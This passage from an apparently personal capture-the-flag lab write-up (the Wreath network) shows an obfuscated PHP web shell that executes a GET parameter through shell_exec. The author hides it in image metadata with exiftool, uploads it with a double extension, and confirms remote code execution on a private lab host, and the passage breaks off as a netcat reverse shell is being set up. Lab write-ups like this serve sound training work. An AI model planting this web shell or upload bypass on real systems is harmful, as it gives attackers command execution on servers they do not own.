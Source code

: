 - As you can see, the PHP payload expects a GET request with the parameter “wreath”. The value of the parameter will be executed with shell_exec.

The same payload, but obfuscated:

```php
<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>
```

With exiftool I commented the payload in a image and renamed it as shell-Incendium.jpeg.php:

![Untitled](Personal%20P%20ec072/Untitled%2014.png)

I uploaded the image to the webserver, and accessed it trough the following URL:

[http://10.200.57.100/resources/uploads/shell-incendium.jpeg.php](http://10.200.57.100/resources/uploads/shell-incendium.jpeg.php?wreath=whoami)

![Untitled](Personal%20P%20ec072/Untitled%2015.png)

- We see a error here because we did not provide the ?wreath= parameter.

If we do provide it with the value “whoami”, we can see that the shell is working as expected:

[http://10.200.57.100/resources/uploads/shell-incendium.jpeg.php**?wreath=whoami**](http://10.200.57.100/resources/uploads/shell-incendium.jpeg.php?wreath=whoami)

![Untitled](Personal%20P%20ec072/Untitled%2016.png)

- We see that the shell is running as the user wreath-pc\thomas

We now have RCE on this webserver. Time to get a reverse shell.

---

## 7.0 Reverse shell Personal PC

To get a reverse shell, I decided to go with a static binary of netcat (64bits). Which I first had to copy to the webserver using our in place PHP exploit:
